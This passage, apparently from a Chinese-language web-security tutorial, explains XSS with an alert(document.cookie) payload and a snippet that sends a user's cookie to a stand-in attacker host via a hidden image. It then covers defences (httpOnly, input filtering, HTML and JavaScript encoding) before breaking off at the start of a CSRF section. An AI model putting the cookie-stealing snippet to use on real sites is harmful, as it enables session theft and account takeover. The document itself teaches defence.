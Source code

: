 ```Javascript
<script>
    alert(document.cookie)
</script> 
```

Cookie 发送给攻击者的站点：

```Javascript
 var img = document.createElement('img')
  img.src='http://www.xss.com?cookie=' + document.cookie
  img.style.display='none'
  document.getElementsByTagName('body')[0].appendChild(img);
```

当前用户的登录凭证存储于服务器的 session 中，而在浏览器中是以 cookie 的形式存储的。如果攻击者能获取到用户登录凭证的 Cookie，甚至可以绕开登录流程，直接设置这个 Cookie 值，来访问用户的账号。

#### 防御

按理说，只要有输入数据的地方，就可能存在 XSS 危险。

- httpOnly: 在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息。

  ```Javascript
    // koa
    ctx.cookies.set(name, value, {
        httpOnly: true // 默认为 true
    })
  ```

- 过滤

  1. 输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。

      不仅仅是前端负责，后端也要做相同的过滤检查。

      因为攻击者完全可以绕过正常的输入流程，直接利用相关接口向服务器发送设置。

  2. HtmlEncode 某些情况下，不能对用户数据进行严格过滤，需要对标签进行转换

      <img src="https://raw.githubusercontent.com/Selenamona/Selenamona.github.io/master/assets/images/transform.jpg" width="700"/>

      当用户输入`<script>window.location.href="http://www.baidu.com";</script>`, 最终保存结果为 `&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;`, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。

  3. JavaScriptEncode 对下列字符加上反斜杠

      <img src="https://raw.githubusercontent.com/Selenamona/Selenamona.github.io/master/assets/images/t2.jpg" width="700"/>

      关于更多 HtmlEncode 和 JavaScriptEncode，请参考 [HtmlEncode和JavaScriptEncode（预防XSS）](http://www.cnblogs.com/lovesong/p/5211667.html)

## CSRF

csrf：跨站点请求伪造（Cross-Site Request Forgeries），也被称为 one-click attack 或者 session riding。冒充用户发起请求（在用户不知情的情况下）， 完成一些违背用户意愿的事情（如修改用户信息，删初评论等）。

可能会造成以下影响：
